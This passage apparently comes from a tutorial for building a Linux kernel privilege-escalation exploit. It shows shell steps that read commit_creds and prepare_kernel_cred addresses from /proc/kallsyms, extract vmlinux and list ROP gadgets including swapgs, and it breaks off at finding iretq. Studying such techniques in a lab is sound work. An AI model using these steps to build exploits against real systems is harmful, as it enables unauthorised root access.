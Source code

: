   ```sh
  / # cat /proc/kallsyms | grep prepare_kernel_cred
  ffffffff8108fa30 T prepare_kernel_cred
  / # cat /proc/kallsyms | grep commit_creds
  ffffffff8108f7b0 T commit_creds
  ```

- Host: get kernel gadgets
  ```sh
  $ cd # return home
  $ mkdir kernel_image
  $ cd kernel_image
  ```
  - If there is error related to SSL
    
    ```sh
    $ sudo apt-get install libssl-dev libssl1.0.0 openssl
    ```
  - Extract kernel. Download script from [kernel tree](https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux)
    
    ```sh
      $ wget https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux
      $ cp /boot/vmlinuz-3.11.0-15-generic .
      $ chmod u+x extract-vmlinux
      $ ./extract-vmlinux vmlinuz-3.11.0-15-generic > vmlinux-3.11.0-15-generic
      ```

  - Install [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)
    
    ```sh
    $ wget https://raw.githubusercontent.com/pypa/get-pip/master/get-pip.py
    $ sudo python get-pip
    $ sudo pip install capstone
    $ sudo pip install ropgadget
    ```
  - Get kernel gadgets
    
    ```sh
    ROPgadget --binary vmlinux-3.11.0-15-generic > kernel.gadgets
    ```
  - Search for ROP
    
    ```sh
    $ grep ': pop rdi ; ret' kernel.gadgets
    0xffffffff810476e5 : pop rdi ; ret
    $ grep ': pop rdx ; ret' kernel.gadgets
    0xffffffff812366d2 : pop rdx ; ret
    $ grep ': mov rdi, rax ; call rdx' kernel.gadgets
    0xffffffff81035b51 : mov rdi, rax ; call rdx
    $ grep ': swapgs ; pop rbp ; ret' kernel.gadgets
    0xffffffff81050554 : swapgs ; pop rbp ; ret
    ```

- Host: find iretq
  